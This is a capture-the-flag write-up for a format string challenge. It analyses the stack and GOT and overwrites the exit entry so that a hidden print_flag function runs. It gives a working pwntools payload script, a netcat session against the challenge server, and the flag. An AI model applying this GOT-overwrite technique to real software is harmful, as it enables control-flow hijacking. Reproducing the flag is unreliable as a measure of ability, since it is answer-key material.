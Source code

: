 # Write-up

# ![](/assets/problem-statement.png)

---

Exploit a format string vulnerability

Flag: **gigem{F0RM@1NG\_1S\_H4RD}**

## Analysis

Suppose we run  the program with the string `AAAAAAAAAAAAAA`

When the program is on `printf`,

![](/assets/at-printf.png)

The stack looks like:

```
BFFFEDC0  BFFFEDD0  MEMORY:BFFFEDD0  <--- ESP (Pointer to our string)
BFFFEDC4  00000002  MEMORY:00000002  Dword 1
BFFFEDC8  00000000  MEMORY:00000000  Dword 2
BFFFEDCC  00000000  MEMORY:00000000  Dword 3
BFFFEDD0  41414141  MEMORY:41414141  <--- Our entered string
BFFFEDD4  41414141  MEMORY:41414141
BFFFEDD8  41414141  MEMORY:41414141
BFFFEDDC  00004141  MEMORY:00004141
```

* The top of the stack contains the pointer \(address\) to our entered string.
* After that there are 3 dwords \(12 bytes\) and then our string begins.

Thus when exploiting, our entered string can be considered as the 4th parameter to printf.

The function which prints the flag is located at `080485AB`. It is not called anywhere by the program. We have to somehow redirect the execution flow to there so that it prints our flag.

```nasm
.text:080485AB public print_flag
.text:080485AB print_flag proc near
.text:080485AB
.text:080485AB var_D= byte ptr -0Dh
.text:080485AB fp= dword ptr -0Ch
.text:080485AB
.text:080485AB push    ebp
.text:080485AC mov     ebp, esp
.text:080485AE sub     esp, 18h
.text:080485B1 sub     esp, 0Ch
.text:080485B4 push    offset s                        ; "This function has been deprecated"
.text:080485B9 call    _puts
.text:080485BE add     esp, 10h
.text:080485C1 sub     esp, 8
.text:080485C4 push    offset modes                    ; "r"
.text:080485C9 push    offset filename                 ; "flag.txt"
.text:080485CE call    _fopen
```

The Global Offset Table looks like:

```
.got.plt:0804A00C 64 A0 04 08 off_804A00C dd offset printf ; DATA XREF: _printfr
.got.plt:0804A010 68 A0 04 08 off_804A010 dd offset gets ; DATA XREF: _getsr
.got.plt:0804A014 6C A0 04 08 off_804A014 dd offset _IO_getc ; DATA XREF: __IO_getcr
.got.plt:0804A018 70 A0 04 08 off_804A018 dd offset puts ; DATA XREF: _putsr
.got.plt:0804A01C 74 A0 04 08 off_804A01C dd offset exit ; DATA XREF: _exitr
.got.plt:0804A020 78 A0 04 08 off_804A020 dd offset __libc_start_main
```

Later in the program after `printf` returns `exit` is called.   
If we modify the address of `exit` in the GOT with that of `print_flag`, it would be executed and we would get our flag.

The entry of `exit` in the GOT is at `0804A01C` and it contains the bytes `74 A0 04 08`.    
The address of `print_flag` in little endian byte order is `AB 85 04 08`.   
Hence we would only need to write the two bytes `AB 85` , as the remaining two are already properly set up.

Summarizing, 

Write`0xAB`  \(171\) to `0804A01C`
  
Write `0x85` \(133\) to `0804A01D`

Since 133 &lt; 171, we can write 133 at `0804A01D` followed by 171 at `0804A01C
`.   
\(The reverse is also possible where we have to use wrap around\)

```
	-------------8 bytes------------
	|               |              |
	|  1st address  | 2nd address  |
	|               |              |
	\x1d\xa0\x04\x08\x1c\xa0\x04\x08
```





## Using pwntools \(automated\)

**Generate the exploit**

First parameter \(4\) indicates that the string is the 4th parameter.  
See the [pwntools docs](http://python3-pwntools.readthedocs.io/en/latest/fmtstr.html#pwnlib.fmtstr.fmtstr_payload) for more info.

```py
from pwnlib.fmtstr import fmtstr_payload
open('exploit', 'w').write(fmtstr_payload(4, {0x0804a01c: 0x080485ab}, write_size='byte'))
```

**Profit :\)**

```bash
$ nc pwn.ctf.tamu.edu 4323 < exploit
Enter a word to be echoed:
����                       This function has been deprecated
gigem{F0RM@1NG_1S_H4RD}
```



